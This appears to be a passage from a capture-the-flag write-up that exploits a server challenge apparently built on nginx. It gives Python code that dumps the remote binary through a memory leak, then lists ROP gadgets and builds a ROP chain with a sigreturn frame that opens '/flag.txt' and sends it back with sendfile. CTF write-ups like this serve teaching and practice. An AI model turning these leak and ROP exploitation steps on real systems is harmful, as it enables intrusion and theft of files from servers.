 ```python

def leak_bin():
  with open('dump', 'wb', buffering=0) as f:
    offset = 0
    while offset < 0x128000:
      offset += f.write(leak_some(exe+offset))
```

There's a limit to how much nginx can send back in one request, so we just throw the whole thing in a big loop to dump as much as we can. The choice of `0x128000` is arbitrary.

# Use Leaked Binary to Complete Exploit
At this point we have enough information to complete the exploit. The dumped binary is incomplete, so most tools have a hard time/refuse to analyze it. Thankfully, we can still look for gadgets with some guess-and-check and feeding bytes into a disassembler by hand. We had a general sense for where the code segment should be from our nginx binary, and looked for some basic gadgets. In the end, we found two that were enough:

- `0x97232: pop rax ; ret`
- `0x9f158: mov QWORD PTR [rsi], rax ; mov rax, rdx; ret`

The second gadget is particularly powerful. Not only does it allow us to write data to memory, but it also allows us to write the return value of a function in `rax` to memory, which turned out to be very helpful.

## kmh's Solution
kmh's solution came as a result of us asking where the flag should be (file, environment, memory, etc.) An admin told us that the flag was in the file `/flag.txt`, and that this path would be added to the challenge description. kmh's solution was to `open` this file, then `read` and `write` it to our socket. I suggested `sendfile` rather than `read` and `write` to save a syscall.

We can use the second gadget above to write the filename to memory, then `open` it. But how do we get the returned file descriptor? We could just use guess-and-check, but kmh used the gadget to write the returned value in `rax` to memory, then used `write` to send the value back. The value turned out to be `12`, so we can finish with the `sendfile`.

```python
rax = exe + 0x97232
www = exe + 0x9f158
# mov qword [rsi], rax ; mov rax, rdx; ret

buf = exe + 0x129000
data = b'/flag.txt\x00'

rop = password
for i in range(0, len(data), 8):
  rop += p64(rsi_r15)
  rop += p64(buf+i)*2
  rop += p64(rax)
  rop += data[i:i+8].ljust(8, b'\x00')
  rop += p64(www)

rop += p64(rdi)
rop += p64(constants.SYS_open)
rop += p64(rsi_r15)
rop += p64(buf)*2
rop += p64(syscall)

frame = SigreturnFrame()
frame.rdi = constants.SYS_sendfile
frame.rsi = 3
frame.rdx = 12
frame.rcx = 0
frame.r8 = 0x100
```